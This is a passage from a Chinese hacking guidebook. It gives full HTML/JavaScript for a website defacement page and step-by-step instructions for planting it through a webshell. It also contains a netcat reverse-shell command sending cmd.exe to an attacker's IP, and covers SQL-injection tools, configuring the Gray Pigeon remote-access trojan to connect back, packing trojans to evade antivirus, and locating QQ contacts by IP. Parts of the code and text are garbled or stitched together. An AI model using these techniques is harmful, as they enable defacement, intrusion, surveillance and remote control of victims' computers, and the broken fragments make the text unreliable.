<base target=_top></head>
<body>
<script language='JavaScript' type='text/javascript'>
<!-- Hide
function killErrors() {
  return true;
}
window.onerror = killErrors;
// -->
</script>

<BGSOUND balance=0 src='http://www.nohack.com/mid/topic.mid' volume=0 loop=20></IFR>
<META http-equiv=Content-Type content='text/html; charset=gb2312'>
<SCRIPT language=javascript>
<!--
function is() {
  var agent = navigator.userAgent.toLowerCase();
  this.major = parseInt(navigator.appVersion);
  this.minor = parseFloat(navigator.appVersion);
  this.ns = ((agent.indexOf('mozilla') != -1) && ((agent.indexOf('spoofer') == -1) && (agent.indexOf('compatible') == -1)));
  this.ns2 = (this.ns && (this.major == 2));
  this.ns3 = (this.ns && (this.major == 3));
  this.ns4b = (this.ns && (this.major == 4) && (this.minor <= 4.03));
  this.ns4 = (this.ns && (this.major >= 4));
  this.ie = (agent.indexOf('msie') != -1);
  this.ie3 = (this.ie && (this.major == 2));
  this.ie4 = (this.ie && (this.major >= 4));
  this.op3 = (agent.indexOf('opera') != -1);
}

var is = new is();

if (is.ns4) {
  doc = "document";
  sty = "";
  htm = "";
} else if (is.ie4) {
  doc = "document.all";
  sty = ".style";
  htm = "";
}

var text1 = "", text2 = "", count = 0, count2 = 0,
    msg = new Array();

msg[0] = "<font face=tahoma size=2><center>...人世间原本没有天才，天才形成的原因是一个过程...";
msg[1] = "......而这其中过程的过程只是尽自己最大的努力......";
msg[2] = "......那怕有一天自己的理想破灭了......";
msg[3] = "......我依然开心快乐着，因为我尽了自己最大的努力......";
msg[4] = "......你的网站存在重大的......";
msg[5] = "......安全漏洞......";
msg[6] = "......请尽快修补......";
msg[7] = "......首页文件已帮您作备份......";
msg[8] = "......删除黑页修改备份名......";
msg[9] = "......网站即恢复正常......";
msg[10] = "......友好检测......";
msg[11] = "n.o.h.a.c.k";
msg[12] = "追求真正的HACK精神";
msg[13] = "By n0h4ck3";

text = msg[0].split("");

function writetext() {
  text1 = "<tt><" + text2 + "<b style='color:#00FF00'>" + text[count] + "</center></tt>";
  text2 += text[count];
  fillHTML = eval(doc + "['nothing']" + htm);

  if (is.ns4) {
    fillHTML.write(text1);
    fillHTML.close();
  } else {
    fillHTML.innerHTML = text1;
  }

  if (count >= text.length - 1) {
    count += 1;
    setTimeout("writetext()", 1);
  } else {
    count = 0;
    text2 += "<p>";
    if (count2 != 13) {
      count2++;
      text = eval("msg[" + count2 + "]").split("");
      setTimeout("writetext()", 5);
    }
  }
}
```


```html
<!-- Pyara style baby -->
//-->
</SCRIPT>
<META content="MSHTML 6.00.2800.1106" name=GENERATOR>
<STYLE type=text/css>#nothing {
  VISIBILITY: visible
}
</STYLE>
</HEAD>
<BODY style="BACKGROUND-ATTACHMENT: fixed" text=#00ff00 vLink=#008000 aLink=#008000 link=#008000 bgColor=#000000 onload=writetext();>
<DIV id=nothing style="WIDTH: 976px; HEIGHT: 253px"></DIV><FONT size=4>
<SCRIPT language=JavaScript>
<!--
if (document.all){
  Cols = 10;
  Cl = 48; // Space's are included so real length is 24!
  Cs = 120;
  Ts = 18;
  Tc = '#008800';
  Tcl = '#00ff00';
  MnS = 20;
  MxS = 20;
  I = Cs;
  Sp = new Array(); S = new Array(); Y = new Array();
  C = new Array(); M = new Array(); B = new Array();
  RC = new Array(); E = new Array(); Tcc = new Array(0,1,2,3,4,5,6,7,8,9);
  document.write('<div id="Container" style="position:absolute;top:0;left:'+Cs+'">');
  document.write('<div style="position:relative">');
  for(i = 0; i < Cols; i++){
    S[i] = i * Cs;
    document.write('<div id="A" style="position:absolute;top:0;font-family:Arial;font-size:'+Ts+'px;left:'+S[i]+';width:'+Ts+'px;height:0px;color:'+Tc+';visibility:hidden"></div>');
  }
  document.write('</div></div>');
  for(i = 0; i < Cols; i++){
    RC[i] = 1 + Math.round(Math.random() * Cl);
    Y[i] = 0;
    Sp[i] = Math.round(MnS + Math.random() * MxS);
    for(j = 0; j < RC[i]; j++){
      B[i] = '';
      C[i] = Math.round(Math.random()) + '';
      M[i] = B[i] += C[i];
    }
  }
  function Cycle(){
    Container.style.top = window.document.body.scrollTop;
    for(i = 0; i < Cols; i++){
      var r = Math.floor(Math.random() * Tcc.length);
      E[i] = '<font color='+Tcl+'>'+Tcc[r]+'</font>';
      Y[i] += Sp[i];
      if(Y[i] > window.document.body.clientHeight){
        for(i2 = 0; i2 < Cols; i2++){
          RC[i2] = 1 + Math.round(Math.random() * Cl);
        }
      }
    }
  }
}

B[i] = ''
C[i] = Math.round(Math.random() * 4) + ''
C[Math.floor((Math.random() * 12))] = '+'
M[i] = B[0] + c[i3];
Y[i] = 'Ts*M[i].length/1.5';
A[i].style.visibility = 'visible';
...
Sp[i] = Math.round(MnS + Math.random() * MxS);
...
A[i].style.top = Y[i];
A[i].innerHTML = M[i] + ' ' + E[i] + ' ';
...
setTimeout('Cycle()',45)
}
Cycle();
}
// -->
</SCRIPT>
</FONT></BODY></HTML>
<P align=center><FONT size=7><B><I><FONT color=#ff0000></FONT></I></B></FONT></P>
<P align=center><FONT size=7><B><I><FONT color=#ff0000>黑手制作</FONT></I></B></FONT></P>
```

将整段代码存为 html 文件，双击打开后的效果如图 76 所示。


图76

仔细分析黑页，一般有几个部分组成：

- 1. 自己的名字，让人知道这网站是被谁黑的，提高知名度也是挂黑页的主要目的，如图 76 中的“by：n0h4c3”。
- 2. 自己所在网组或个人主页网站的名字。不光自己留下名字，还要说明自己来自何方，附带广而告之地宣传一下，如图 77 中所示的“黑手制作”几个大字。
- 3. 自己想说的话，写给管理员或是表达自己的一种情绪，如图 78 所示。
- 4. 视觉特效和背景音乐。我们肯定希望自己的黑页很酷很炫，那加上效果是必不可少的，如图 79 所示，背景中的数字符号会像雨点一样从上往下降，而我们要说的那些话，也是逐行显示的，使画面看起来颇有动感。


```html
<BGSOUND balance=0 src="http://www.nohack.com/mid/topic.mid" volume=0 loop=20></TR>
```

这段语句中，mid 文件是黑页的背景音乐，我们可以将其换成别的，只需替换一下 URL 即可。

在使用时还需要把代码中 `<title>黑页演示</title>` 写成我们自己的内容，这里是页面标题，就是 IE 浏览器左上方所显示的内容，如图 80 所示。

黑页修改好了，我们去 WEBSHELL 挂上。登录 WEBSHELL 后先在网站的根目录下找到首页文件，一般文件名是 index.htm、index.asp、default.htm、default.asp 等，如图 81 所示。在替换首页挂黑页之前先将它原来的首页备份一下，使管理员能够恢复，我们对网站不应该做恶意的破坏。点击 WEBSHELL 中的“编辑”，把 index.htm 改为 index.htm_bak，如图 82 所示。然后新建一个文件，命名为 index.htm，把我们改好的黑页代码内容复制粘贴进去，然后保存，如图 83 所示。再次访问这个网站的地址时，如 `http://www.xxx.com`，发现进入的是我们的黑页，并配有背景音乐，目标达成，如图 84 所示。


```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<meta name="generator" content="http://www.nohack.com">
<meta name="keyword" content="">
<title>...</title>
<base target=_top></head>
<body>
<script language="JavaScript" type="text/javascript">
<!-- Hide
function killErrors() { return true; }
window.onerror = killErrors;
// -->
</script>
<BGSOUND balance=0 src="http://.../mid/topic.mid" volume=0 loop>
</body>
</html>
```

> 人世间原本没有天才，天才形成的原因只是一个过程！  
> 而这其中过程的过程只是尽自己最大的努力。  
> 哪怕有一天它的理想破灭了……  
> 我依然开心快乐着，因为我尽了自己最大的努力……

希望这个黑页中的几段话能鼓励大家努力地学习，去追求更加高深的技术，做一个真正的黑客。最后希望大家明白，**当你挂上黑页时，你就是在触犯法律！**

# 第六章 黑客工具实战技巧

- 使用端口扫描器扫描了很多 IP 段，为什么一个端口都没有扫描到？
- 怎样看到我的 QQ 好友的 IP 地址甚至是具体位置呢？我在外网中，为什么路由器下不能上线等？
- 黑客常用的 ADSL 路由器都有哪些端口可穿？

- 如何用代理隐藏人的真实地址？
- 如何隐藏 IP 地址防追踪？

- 怎么样给软件脱壳或者加壳？
- 如何使用溢出工具包 `metasploit`？
- 如何安装虚拟机软件？

- 怎么把木马和其他程序捆绑？
- 如何使用 `radmin`？
- 我不会使用 PCSHARE，能教教我吗？

- 在修改木马防杀操作中如何定位特征码？
- 如何进行跳板防杀？
- 如何使用 FXP 方便管理自己的 WEB 空间？

- 怎么使用端口转发工具 LCX？
- 如何使用键盘记录器？
- 如何配置 C/S 木马？
- 怎么进行账号入侵系统教程？

1. 黑客常用的有哪些工具，能推荐几种吗？
2. 怎样看到某 QQ 好友的 IP 地址甚至是具体位置呢？
3. 我使用端口扫描器扫描了很多 IP 段，为什么一个端口都没有扫到？
4. 我在外网中，为什么鸽子也不能上线？
5. 怎么查找我的 IIS 服务器配置是否可映射？
6. 怎么样给软件脱壳或加壳？
7. 如何使用溢出工具包 `metasploit`？
8. 如何安装虚拟机软件？
9. 在修改木马防杀操作中如何定位特征码？
10. 怎么把木马和其他程序捆绑？
11. 如何进行跳转修改做防杀？
12. 如何使用 X-Scan 扫描器？
13. 怎么让没有代理功能的软件也能使用代理？
14. 如何用“代理超人”扫描代理？
15. 如何使用 `radmin`？
16. 如何使用啊D自动攻击器？
17. 我不会使用 PCSHARE，能教教我吗？
18. 如何使用 FXP 方便地管理自己的 WEB 空间？
19. 怎么使用端口转发工具 LCX？
20. 如何使用键盘记录器？
21. 如何使用 C/S 木马？
22. 网络瑞士军刀 NC 的多种使用方法

## 1 黑客常用的有哪些工具，能推荐几种吗

长期从事网络安全检测必然有几样顺手的工具，虽然不一定要多，但一定要精。根据平时个人的经验，我将自己的常用工具及简单用法奉献如下：

### （1）NC（NETCAT）

NC 号称网络瑞士军刀，其功能强大，应用广泛，几乎所有黑客工具箱必然收录这款工具。NC 的主要功能有监听、连接、提交数据等。比如你想测试本地主机是否在外网，最有效的测试方式莫过于使用 `nc -vv -l -p 12345` 命令监听本地的 12345 端口，如图1所示。

```text
D:\hacksofe\nc>nc -vv -l -p 12345
listening on [any] 12345 ...
```

图1

然后再打开一个 NC，用命令 `nc -vv 你的外网IP 12345` 连接，如果能连接上，自然就是外网，连接不上就是内网。如图2、图3所示，分别是连接端和监听端上的提示信息。

```text
D:\hacksofe\nc>nc -vv xxx.xxx.195.141 12345
fly-d02d27d466a [xxx.xxx.195.141] 12345 (?) open
```

图2 主动连接方的提示

```text
D:\hacksofe\nc>nc -vv -l -p 12345
listening on [any] 12345 ...
connect to [xxx.xxx.195.141] from fly-d02d27d466a ...
```

图3 监听端的提示

这个操作演示了 NC 的两个普通用法——监听和连接。如果你是在肉鸡上执行监听端口命令，在没有防火墙的前提下，可以直接连接上肉鸡；如果你是在本地监听端口，在肉鸡上运行连接，就会收到一个从肉鸡上反连的 SHELL。反弹 SHELL 大部分都是能穿防火墙的，使用命令把 cmd.exe 返回到你的机器；使用命令则能把 11.txt 文件中的内容提交到网站上。对于这些命令的使用，相信掌握了抓包上传的朋友都很熟悉。

```text
nc -vv -e c:\windows\system32\cmd.exe 你的IP
nc -vv 欲攻击的网站域名 80<11.txt
```

NC 的奇妙就在于原本很简单的功能，却能在奇妙的运用下创造出无限可能。NC 还有很多精妙的运用，在本章后面的内容中会有详细的介绍。

### （2）Superscan

端口扫描工具是每个黑客工具箱中必备的一类工具，superscan 是扫描器中的老牌产品，稳定性好，功能强大，特别其准确性是这个扫描工具最重要的素质。superscan 是一款在图形模式下工作的扫描工具，使用很简单，输入 IP 后选择要扫描的端口，点“开始”即可扫描，如图4所示。要注意的是尽量选择 TCP 扫描，因为 SYN 扫描会被防火墙当成异常请求而被屏蔽掉，造成结果不准确。


图4

### （3）以 NBSI 为代表的 SQL 注入工具

玩过 SQL 注入的朋友不可能不知道 NBSI 的大名，它的确是到目前为止功能最强最成熟的 SQL 注入工具，并且具有很多 SQL 注入工具没有的扫描注入漏洞功能。正常的操作流程是在“网站扫描”下的“网站地址”中填入要扫描的网站地址，点击“扫描”，在“扫描结果”中会列出扫描过的链接和注入的可能性，如图5所示。


图5

如果可能性为“极高”，则肯定是注入点。点击“注入分析”，开始猜管理员表的密码进行入侵，如果是 MSSQL 则可以尝试读目录获取 WEB 路径后再备份得 WEBSHELL 等方法。

### （4）远程控制，即木马类

这一类工具主要有灰鸽子、PCSHARE 等木马，如图6所示，以及黑客之门、wolf 等一些后门，它们的使用方法在网上都有详细的描述。


图6

这类工具的首要条件绝对不是功能多样、界面花哨，而是隐藏性和防杀性，所以很多黑客都有自己私有的工具。

### （5）WSockExpert

这是一款抓包工具，它的用处很大，比如你可以用它抓取网站上影音文件的连接地址。常见的入侵手法中，在抓包、修改、上传这个流程中，也是离不开的工具。操作方法是点击左上方的“打开文件”按钮，选中要抓包的程序，比如 IE，如图7所示。


图7

第一，IE 在打开了多个窗口时，要选择标题内容与你要抓包的 IE 左上方标题相同的。  
第二，抓包的 IE 浏览器一定要选择开新窗口浏览网页的，而不能选用腾讯 TT 那种在同一程序中打开 N 个窗口的浏览器，这样是无法抓到数据包的。

选定后，切换到 IE 界面，点击“提交”或者刷新 IE，这时在 WSockExpert 中就会显示出 IE 在刚才提交和接收的数据包信息。选择我们需要的信息数据，然后从下方窗口中复制出相关内容，如图8所示。

### （6）文件内码编辑类工具，如 WINHEX 和 Uedit32

16 进制修改工具，抓包上传必须！除了在上传时把空格的 16 进制 `%20` 改为 `%00`，还可以从一些加密不严的程序中得到很多有用的信息，比如木马的安装目录、程序名称。图片木马的制作也要使用它，直接把一个图片文件后面加上一句话木马即可，如图9所示。

### （7）嗅探工具类

现在嗅探在入侵中越来越广泛地使用，工具也层出不穷。嗅探类的工具现在主要有混杂模式的普通嗅探和 ARP 欺骗类的嗅探，这里推荐 guest_sniffer.exe 和 ARPSF，如图10所示。


图8


图9


图10

### （8）漏洞利用和溢出提权等工具

漏洞利用工具，如常见的 serv-u 提权工具等，如图11所示，能使我们很快地入侵网站，节约大量的时间。提权工具一般人是很难得到的，能否接触到内部未公开的漏洞利用工具，是一个黑客技术层次的标志之一。

以上几种工具是个人认为必备的，其他功能的工具还有很多，但是都可能有替代的方法。以上几类工具并非一定要用推荐的几款，大家可以依据自己的爱好选择称手的伙伴。


## 2 怎样查到我 QQ 好友的 IP 地址甚至是具体位置呢？

相信有的朋友在用 QQ 上网和网友聊天时，常常遇见这样的情况：突然你的网友问道：“你是在湖南？”（你正好在湖南上网，他说对了！）甚至会说出：“你是不是在沈阳航空路飞浪网吧上网啊？”不知底细的人被吓一跳，还以为对方是哪路神仙，对自己的底细了解得一清二楚。其实这是有可能的：对方的 QQ 有外挂程序，通过它能看到你的 IP，然后通过 IP 了解到你正在使用的这台电脑的所在位置。

IP 地址的知识相信大家都了解过，这里再补充下。IP 的分配和电话号码、邮编区号、身份证号码一样，是有规律的，有规律自然就可以从中分辨出 IP 地址所在地。而网吧、学校等公共上网场所，它向电信公司申请的上网专线 IP 是不会变的，当在这些地点上网时，会得到比其他区域更为详细的地址信息。只要取得了 IP 地址，就可以从 IP 数据库中看到其所属地区，如图12所示。

图12：IP地址与归属地对应表（示例：218.65.0.* 对应江西省九江市及相关网络/运营商信息）

这类 QQ 外挂工具的工作原理，就是通过分析聊天时传递的数据包得出对方 IP，然后将这个 IP 地址与存在本地的 IP 地址数据库去对应，如果在 IP 数据库内，则显示出对应的地址位置；如果不在 IP 地址库内，则显示“无法获取地理位置”。

你如果也想拥有这个显对方 IP 的功能，可以下载显示 IP 地址的 QQ 外挂。我们在 http://www.google.com 的搜索输入框中输入 **QQ 显IP 2008**，然后进行搜索就可以找到相关信息，如图13所示。


图13

下载完毕后开始安装，与安装普通的 QQ 并没有什么区别，安装完成后，按默认设置即可，如图14所示。


图14

再次登录你的 QQ 号，打开与好友聊天的对话窗口，在界面右上区域原来显示 FLASH 广告的位置，现在已变成显示 IP 及地理位置，如图15所示。


图15

显示格式通常如下所示：

```text
某市某区某网吧
IP: 221.125.251.15:4000
```

在四段位 IP 后面的 4000 是该 QQ 与外界联系使用的端口，这个有什么用呢？不要小看它，它能传达的信息可不少哦。它可以帮助我们识别对方是不是用代理上的 QQ，如果是直接 QQ 上线而没有通过代理，这个端口号通常应该是 4000 或 4001。如果不是这个端口，而且地址又莫名其妙，比如是显示在国外，可以推测对方是用的代理 IP 上网。

当然，有时网吧也是使用的网吧主机代理上网，这时的端口也可能不是 4000 和 4001，如图16所示，注意具体情况具体分析。

4000 和 4001 端口还能进一步分析出一个结果：如果是使用 4001 端口上线，那是因为 4000 端口已被占用，一般情况下这通常是对方开了两个 QQ；当然，也不排除是对方电脑死机后非正常重启，导致 4000 端口未被释放，再次登录 QQ 时只能使用 4001 端口的情况。


图16

怎么才能让对方看不到自己的真实地址呢？方法当然是隐藏自己的 IP，隐藏 IP 最常见的就是使用代理上网。先通过搜索从网上找到现成的代理，在打开 QQ 登录框时，点击下方的“设置”按钮，如图17所示。


图17

在“网络设置”一栏填入代理的“类型”“地址”“端口”等相应参数，如果是需要用户名和密码才能登录的非匿名代理，就填入用户名和密码。填好后，点击“测试”按钮看看该代理是否可用，速度是否够快，如图18所示。


图18

一切设置好后再点“登录”，这时用 QQ 显IP外挂工具看你的 IP 地址时已经不是真正的 IP 地址了，得到的地理位置自然也是错误的，也就达到了隐藏自己的目的。

## 3 我使用端口扫描器扫描了很多 IP 段，为什么一个端口都没有扫到？

产生这个问题的原因比较复杂，要从好几个方面来讲。

第一，有可能是因为你随意选取的 IP 段大部分是空地址。如图19中所示，IP 数据库中关于上海的这段 IP，在 218.80.212.255 后就是 218.80.217.0 了，而从 218.80.212.255 到 218.80.217.0 之间的 IP 地址并未被分配给用户，属于保留地址。如果在扫描工具内填的是这个 IP 段里的地址，自然是无法得到扫描结果的，如图20所示。

| IP段起始 | IP段结束 | 说明 |
|---|---|---|
| 218.80.212.130 | 218.80.212.130 | 上海市普陀区 3D网 |
| 218.80.212.131 | 218.80.212.181 | 上海市 电信 |
| 218.80.212.182 | 218.80.212.182 | 上海市长宁区 希望 |
| 218.80.212.183 | 218.80.212.253 | 上海市 电信 |
| 218.80.217.0 | 218.80.217.41 | 上海市 电信ADSL |
| 218.80.217.42 | 218.80.217.42 | 上海市 优茂网吧 |
| 218.80.217.43 | 218.80.218.177 | 上海市 电信ADSL |
| 218.80.218.178 | 218.80.218.178 | 上海市 东方网点园 |

图19


图20

第二，某些扫描工具的正常使用依赖于一些动态工程或者动态数据库文件，但是由于文件过大或者编程技巧的原因，没有将它们整合到扫描工具里面。在某些版本的 WINDOWS 操作系统中，当没有这些文件时，工具也就无法正常运行了。例如 WINDOWS XP 家用版就常常没有包含这些文件，建议在 WINDOWS 2000 或 WINDOWS 2003 服务器版下使用这些工具。

第三，现在扫描工具的扫描方式一般有两种，一种是 SYN 扫描，一种是 TCP 扫描。SYN 扫描是一种半开放扫描方式，利用的是三次握手原理。过程大约是先发送一个连接请求，让远程主机响应，等主机响应后则迟迟不进行应答完成三次握手中的最后一步，即第三步。SYN 扫描的过程如图21所示：


图21

这种扫描方式从某种意义上来说有准确的一面，另一方面则是可以用这种手段来发起 DDOS 攻击，因此一些防火墙和系统补丁已经忽略了这种连接方式，遇到 SYN 连接包时则放弃不作响应。如果 SYN 扫不出结果，建议用 TCP 扫描方式。TCP 是直连式扫描，只要端口开放，能连上，就可以确认是开放的，在这种情况下反而比较准确。

第四，在一小部分地区，是因为电信公司在路由上禁止了对一些端口的扫描，比如 IPC 空连接常用的 139、135 等几个端口。这是因为在以前 IPC 空连接漏洞和其他扫描传播的木马盛行时，为了减少危害，电信公司采用了禁止扫描的措施。

这里可以给大家做个试验，比如扫描 www.sohu.com 的 TCP 80 端口。我们先使用 SYN 扫描模式，如图22所示。

扫描的结果是该主机没有开放 80 端口，这明显是不可能的，如图23所示。


图22


图23

我们再扫描一次，这次使用“直接连接”扫描模式，如图24所示。


图24

现在扫到了 TCP 80 端口开放，如图25所示。


图25

第四，扫描时注意扫描的端口类型，如果扫描的是 UDP 类型的端口，设置成 TCP 类型是不能扫到的。

第五，一次扫描的 IP 段不能过多，有的朋友一次扫描就跨越了数十个 C 段，甚至是 B 段、A 段，这样扫描已经远远超过了工具所能承受的最大范围，一般会提示出错，不执行扫描操作。虽然有的工具会执行扫描，但是实际上不会返回任何结果。

如图26所示，被圈中的位置表示是扫描 255 个 B 段，这样扫描就算在肉鸡上跑 N 天，得到的结果也很难保证准确，因为已经超过了工具的正常负荷范围了。


图26

第六，扫描工具已经被损坏，这一点可以采用如下方法分析扫描不到结果的原因。  
测试1：扫描 127.0.0.1，如果有返回结果，说明扫描器没有问题，可正常使用，如图27所示。  
测试2：扫描 www.163.com，如果能扫到开放端口，说明网络正常；如果没能扫到，请检查网络等情况，如图28所示。


图27


图28

## 4 我在外网中，为什么鸽子也不能上线？

在分析这个问题之前，有必要对这个问题的前提进行判断：你真的是处于外网吗？很多人对于内网和外网的区分，仅仅是在 CMD 下输入 **IPCONFIG -ALL** 命令查看自己的 IP 地址是否为外网，如图29所示。


图29

看到 IP 地址那一行中自己的 IP 为外网 IP，就确认自己是在外网。其实这是不正确的，当你的路由器是使用路由模式而非桥接模式时（路由器的桥接模式和路由模式请参考第二章《常见问题答疑解惑》中的相关内容），即便你的 IP 地址是外网，你实际上仍在内网中。

至今我也没看到哪篇技术文章上说过能用 **IPCONFIG -ALL** 的命令看出自己是否处于内网。因为凭感觉和印象进行判断自己是否在内网的方法是没有依据的，不科学的。更有甚者，仅仅只是因为自己是 ADSL 用户就认为自己是处于外网，这更加是没有联系的判断方法。

对于自己是否处于内网外网的判断，比较权威的测试方法还是推荐 NC 连接测试法。使用 NC 工具在本机监听，命令为 **NC -VV -L -P 1234**，如图30所示。

```bash
D:\hacksoft\nc>nc -vv -l -p 1234
listening on [any] 1234 ...
```

图30

然后再开一个 CMD 窗口执行 NC，命令为 **NC -VV 你的外网IP地址 1234**。如果能连接上，说明你是在外网；如果不能连接上，则是处于内网，如图31所示，为连接失败。

```bash
D:\hacksoft\nc>nc -vv 116.xxx.199.35 1234
fly-d02d27d466a [116.xxx.199.35] 1234 (?)
sent 0, recvd 0

D:\hacksoft\nc>
```

图31

确认自己在外网后鸽子仍不能上线，我们从技术和非技术两个方面来分析原因。先说说非技术方面可能导致不能上线的原因。

有的朋友在测试灰鸽子时，是把灰鸽子和网络木马结合起来测试，也就是说把鸽子做成了网马，然后通过网马来中鸽子进行测试。这中间就涉及到网马的可靠性问题，现在它已经成为一种时效性很强的工具。基于系统漏洞而产生的网马，在系统漏洞打上补丁后即告失效，那么你用来测试中马的计算机，是否为打过补丁的计算机呢？

到该文件。不要觉得莫名其妙，这是因为 Windows 2003 服务器主机没有解析 exe 后缀的文件名。


很多初学者想试验又怕自己中马后无法清除，于是怀着提防的心态常常是在开着防火墙的情况下进行测试；还有的朋友运行的灰鸽子服务端是经过自己或某些所谓免杀工具修改过的版本，这样版本的服务端并不能确保其可靠性，你的灰鸽子无法上线的原因很可能就是因为这个修改后的灰鸽子没有正常运行。

在生成服务端时，建议大家选中“文件”→“配置服务端”→“安装选项”中的“安装成功后自动删除安装文件”，如图3.3所示。


这样设置后如果成功运行了就会删除自身，服务端是否正常运行就一目了然了。最后，如果你所测试的机器上已经中了灰鸽子，再次运行灰鸽子时新的鸽子是不会上线的，所以要先确定被测试的计算机在这之前是没有中过灰鸽子。

下面谈谈从灰鸽子的配置技巧上造成的无法上线的常见原因：

- 1. 在“服务器配置”→“自动上线设置”这一栏中，需要填入你的 IP 通知网页地址、你的域名或 IP 地址，如图3.4所示。


请注意，这三者是有格式区别的，可以单击这一栏中后面的“说明”按钮查看详细描述。网页文件前要以 `HTTP://` 打头，如 `HTTP://www.nohack.com/ip.txt`；域名解析地址和固定 IP 不需要，如 `WWW.nohack.com`，`192.168.0.1`。如果你书写错误，是无法被灰鸽子的连接信号访问到的。

所以配置时要分清，自己到底是通过文件更新 IP 上线、域名映射本地 IP 上线，还是直接连接固定 IP 上线。可能有的朋友会不明白，为什么书写错误会导致无法上线；而且有些朋友在域名和 IP 前加上 `HTTP://` 能正常在 IE 中访问或者 TELNET 到，但在配鸽子时加了 `HTTP://` 就无法上线。

这里我来简单说明一下为什么加了 `HTTP://` 就无法上线。灰鸽子反连时，如果是采用的域名上线方式，它就会去 PING 这个域名而得到 IP 地址，再向这个 IP 地址发起连接请求。PING 命令相信大家都已经掌握了，你可以试着执行一下 `PING HTTP://www.sohu.com`，看看是否能 PING 通，如图35所示。


同样的，对 IP 进行连接时，IP 作为一个参数是整个被进行了连接。如果在 IP 前加了 `HTTP://`，你可以试试能否 TELNET 上。这样解释大家就该明白为何此处的书写错误会导致无法上线了吧？

有的朋友在这里把域名和空间填混，也不是因为没搞清格式，而是实在分不清自己在网上申请的到底是空间还是域名。这是概念没有搞清楚，我教给大家一个判断自己申请的到底是空间还是域名的方法。你申请完成后，会得到一个网络地址，如 `test.nohack.com`。你用 FTP 连接这个地址，命令为 `FTP test.nohack.com`，如果能登录并提示你输入密码，说明是空间，如图36所示。


如果没有连接成功，说明只是域名。原理是，空间具有存储功能，可以进行 FTP 上传下载，因此能被连接；而域名本身只相当于一个门牌号码，并没有连接到空间，所以无法连接。只要我们将以上原因逐一排除，灰鸽子就应该能上线了。

## 5 怎么连我的ADSL路由器里设置端口映射？

在介绍 ADSL 的设置方法之前，有一点先说明：ADSL 的品牌众多，有的系统还是英文的，所以在设置上会有差别。ADSL 设置先要进入 ADSL 路由，可以在 IE 浏览器中输入 ADSL 的 IP 地址然后浏览，会弹出一个登录框，提示输入用户名和密码，如图37所示。


ADSL 的账号和密码在 ADSL 路由的说明书上可以找到，正确输入后即可进入路由设置界面。这里有个小问题，ADSL 路由的 IP 地址如何得到？在“开始”→“运行”中输入“CMD”，在 CMD 模式下输入：

```bash
ipconfig -all
```

在返回的结果中会有如图38所示的信息。


Default Gateway（网关）之后的 IP 地址就是 ADSL 路由器的 IP 地址，例如图38中这台主机的路由器 IP 就是 `192.168.1.1`，就可以用这个 IP 地址登录路由器，如图39所示。


登录进路由器后，界面会分左右两个窗口，左侧的是菜单选项，右边是当前项对应的内容。左侧通常会有“WAN 设置”“LAN 设置”“NAT 设置”“虚拟服务器”“DNS 设置”“保存设置”等几项。路由器品牌不同，菜单项目的文字描述可能不同，如图40所示，是华光路由器的界面。


服务器映射通常是在“虚拟服务”这一项中（也有一部分 ADSL 路由器把映射功能整合到了“NAT 设置”项中），而笔者使用的这款路由器是把配置端口映射单独列在一个“IP 过滤器”中，如图41所示。

点击该项进入后，会看到如下几项：“公共端口”“私有端口”“端口类型”“主机 IP”（路由器不同，文字描述可能不同）。公共端口一项中填写要对外打开的端口，比如要对外开放 21 端口，这里就填 21，如图42所示。

私有端口中填本机要映射出去的端口，这里也填 21 端口，端口类型选择 TCP，主机 IP 输入前面用 `ipconfig -all` 命令得到的 IP 地址，此处为 `192.168.1.2`，如图43所示。


图42


图43

这样就等于把本机的 21 端口通过路由的 21 端口对外开放了。注意：映射完成后点击左侧项目中的“保存设置”，待路由器重启后即可，如图44所示。


图44

现在外部的主机可以直接通过 21 端口连接到本机了，如图45所示。此前因为端口未对外开放，外界连接 21 端口时只相当于对路由的 21 端口发出连接请求，这是连接不上的。

```bash
D:\hacksoft\nc>nc -vv 116.xxx.199.35 21
fly-d02... [116.xxx.199.35] 21 (ftp) open
```

图45

## 6 怎么样给软件脱壳或加壳？

对于一些复杂的壳，只能通过汇编方法进行脱壳，属于解密技术之类。突破一个相当有难度的壳，其难度就是在技术领域的一项关键突破，初学者是很难掌握并做到这点的，因此本节只对使用常用工具对文件进行加壳和脱壳的方法进行讲解。

- 1. 保护版权，防止破解；
- 2. 把程序压缩，体积变小；
- 3. 防止查杀。

常见的加壳工具有 ASPACK、UPX、PEcompact 等。加壳的操作比较直接，并分为图形界面和命令行界面这两种类型。图形界面的比较简单，以 Aspack 为例，运行后选择需加壳的文件，点击“确定”后即加壳成功，如图46所示。

**命令行的加壳工具在使用时需将欲加壳或脱壳的文件放到和命令行工具同一目录。**这里以 UPX 加/脱壳工具为例，先在命令行下输入 `UPX /?` 查看帮助项，列出的内容如下：

| UPX 命令中文解释 | 说明 |
|---|---|
| `-1` | 快速压缩 |
| `-9` | 较好压缩 |
| `-d` | 解压缩 |
| `-l` | 列出压缩文件 |
| `-t` | 测试压缩文件 |
| `-v` | 显示版本号 |
| `-h` | 更多帮助 |
| `-L` | 显示软件授权 |

UPX 选项中文解释：

- `-q` 安静方式
- `-v` 冗长
- `-oFILE` 写入输出到文件
- `-f` 强制压缩可疑文件
- `-k` 保留备份文件

假设需要脱壳的程序名称为 `hacker.exe`，将其和 UPX 脱壳工具放在同一目录后，CMD 命令行下切换进入该目录，输入命令 `upx -f -k hacker.exe` 即可将 `hacker.exe` 加壳成功。另外，UPX 也有图形界面的工具，如图47所示。

资深黑客渗透内幕答疑


脱壳比加壳多一步工序：程序已经被加壳，在脱壳之前就要先弄清它是加的什么壳，以便“对症下药”，用专门的工具对其脱壳。

查找程序是用什么加的壳也有专门的工具，如 PEiD、FileInfo、PE_Scan、Stud_PE 等等，这里以 PEiD 查壳工具为例。运行该工具后在界面右上角有一按钮，点击后选中需要查壳的程序，在最下方的长条形显示框中会显示如“ASPack 2.12 -> Alexey Solodovnikov”等字样，如图48所示。注意查看关键字，这里显示 ASPack 2.12，说明是 ASP 壳，版本是 2.12；如果是“UPX”字样则是 UPX 壳。要脱掉 ASP 壳可以使用对应的工具，选择欲脱壳的文件并确定后即可。


## 7 如何使用渗透工具包 metasploit？

安装好该工具之后，单击选择“开始”→“所有程序”→“Metasploit 3”→“Metasploit 3”进入程序，如图49所示。


图49

运行后会出现一段加载组件的 CMD 画面，请稍等片刻，如图50所示。


图50

等待组件加载完之后将会弹出一个 IE 窗口，这就是 Metasploit 的主界面了，如图51所示。如果没有自动弹出 IE 窗口，可以在 IE 浏览器中输入 `http://127.0.0.1:55555` 直接访问程序界面。


图51

